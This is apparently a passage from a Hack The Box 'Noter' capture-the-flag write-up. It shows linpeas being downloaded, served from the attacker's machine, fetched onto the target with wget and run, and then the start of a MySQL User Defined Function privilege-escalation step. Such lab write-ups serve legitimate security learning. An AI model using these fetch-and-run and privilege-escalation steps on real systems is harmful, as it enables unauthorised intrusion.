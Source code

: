 Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/78b5baad-2d4d-4c28-8f75-9be4267f5aca?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220619%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220619T195932Z&X-Amz-Expires=300&X-Amz-Signature=458e4ebc68fade3310b414a23f7687f955f9b227163aac4ee86349b53b0fc07e&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=165548191&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]
--2022-06-20 00:02:20--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/78b5baad-2d4d-4c28-8f75-9be4267f5aca?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220619%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220619T195932Z&X-Amz-Expires=300&X-Amz-Signature=458e4ebc68fade3310b414a23f7687f955f9b227163aac4ee86349b53b0fc07e&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=165548191&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.108.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776785 (759K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                             100%[============================================================================>] 758.58K  --.-KB/s    in 0.08s   

2022-06-20 00:02:20 (9.54 MB/s) - ‘linpeas.sh’ saved [776785/776785]

                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/noter/serve]
└─$ python -m updog -p 80
[+] Serving /home/kali/htb/noter/serve...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.178.89:80/ (Press CTRL+C to quit)
```

Downloading linpeas on the client:
```
wget 10.10.14.7/linpeas.sh
--2022-06-19 20:00:45--  http://10.10.14.7/linpeas.sh
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776785 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.58K  2.75MB/s    in 0.3s    

2022-06-19 20:00:45 (2.75 MB/s) - ‘linpeas.sh’ saved [776785/776785]


chmod +x linpeas.sh
chmod +x linpeas.sh


./linpeas.sh
```

Nothing major in the output, but since we got mysql credentials from the backup file, we should head down that route first.
### Mysql Privilege Escalation
I've found this Medium post that describes a technique to escalate privileges by utilizing ```User Defined Functions``` in mysql.

https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf


For the exloit we need to enumerate the plugin directory that the ```mariadb``` is currenly using:

```
show variables like '%plugin%';
+-----------------+---------------------------------------------+